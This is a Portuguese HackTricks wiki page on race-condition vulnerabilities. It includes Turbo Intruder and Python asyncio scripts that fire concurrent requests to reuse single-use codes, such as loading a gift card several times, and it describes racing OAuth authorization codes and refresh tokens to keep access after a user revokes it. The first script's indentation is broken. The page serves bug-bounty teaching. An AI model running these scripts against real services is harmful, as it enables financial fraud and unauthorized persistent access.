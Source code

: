 # Condição de corrida

![](<../.gitbook/assets/image (9) (1) (2).png>)

Use o [**Trickest**](https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks) para construir e automatizar facilmente fluxos de trabalho com as ferramentas da comunidade mais avançadas do mundo. Obtenha acesso hoje:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o [repositório hacktricks](https://github.com/carlospolop/hacktricks) e [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Qualquer coisa limitada por um número de tentativas

Condições de corrida são **vulnerabilidades** que **aparecem** em sites que **limitam o número de vezes que você pode realizar uma ação**. Um exemplo muito fácil pode ser encontrado neste [**relatório**](https://medium.com/@pravinponnusamy/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43).

## Usando várias vezes um código de uso único

Quando você faz a página da web executar alguma **ação** que **deve ser feita apenas uma vez**, mas se a ação for feita **várias vezes**, você será **beneficiado**, você realmente precisa tentar uma **condição de corrida**.\
Na maioria das vezes, isso está diretamente relacionado com **dinheiro** (se uma ação for realizada, você recebe X dinheiro, então vamos tentar fazê-la várias vezes muito rapidamente)**.**

### **Usando da mesma conta o mesmo código várias vezes**

Por exemplo, neste [**bug**](https://hackerone.com/reports/759247), o caçador foi capaz de **carregar o dinheiro dentro de um cartão-presente várias vezes**.

Este é o script **turbo intruder** usado para **testar** a **condição de corrida** do relatório mencionado:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
   engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
Usando também o BURP, você pode enviar a **requisição** para o **Intruder**, definir o **número de threads** para **30** dentro do menu **Opções** e selecionar como carga útil **Cargas úteis nulas** e gerar **30**.

### **Usando o mesmo código de contas diferentes**

**Se a proposta anterior não funcionar (tente usar o mesmo código várias vezes na mesma conta), você pode tentar uma variante: tente usar o mesmo código de contas diferentes:**
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```
### Usando Python
```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
## Persistência eterna do OAuth2

Existem vários [**provedores de OAuth**](https://en.wikipedia.org/wiki/List\_of\_OAuth\_providers). Esses serviços permitirão que você crie um aplicativo e autentique usuários registrados pelo provedor. Para fazer isso, o **cliente** precisará **permitir que seu aplicativo** acesse alguns de seus dados dentro do **provedor de OAuth**.\
Então, até aqui, apenas um login comum com google/linkdin/github... onde você é solicitado com uma página dizendo: "_O aplicativo \<InsertCoolName> deseja acessar suas informações, você deseja permitir?_"

#### Condição de corrida em `authorization_code`

O **problema** aparece quando você **aceita** e automaticamente envia um **`authorization_code`** para o aplicativo malicioso. Em seguida, este **aplicativo abusa de uma Condição de Corrida no provedor de serviços de OAuth para gerar mais de um AT/RT** (_Token de Autenticação/Token de Atualização_) a partir do **`authorization_code`** para sua conta. Basicamente, ele abusará do fato de você ter aceitado o aplicativo para acessar seus dados para **criar várias contas**. Então, se você **parar de permitir que o aplicativo acesse seus dados, um par de AT/RT será excluído, mas os outros ainda serão válidos**.

#### Condição de corrida em `Refresh Token`

Depois de **obter um RT válido**, você pode tentar **abusar dele para gerar vários AT/RT** e **mesmo se o usuário cancelar as permissões** para o aplicativo malicioso acessar seus dados, **vários RTs ainda serão válidos.**

## Referências

* [https://hackerone.com/reports/759247](https://hackerone.com/reports/759247)
* [https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html](https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html)
* [https://hackerone.com/reports/55140](https://hackerone.com/reports/55140)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe suas dicas de hacking enviando PRs para o [repositório hacktricks](https://github.com/carlospolop/hacktricks) e [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

![](<../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) para criar e **automatizar fluxos de trabalho** com facilidade, alimentados pelas ferramentas da comunidade **mais avançadas do mundo**.\
Obtenha acesso hoje:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
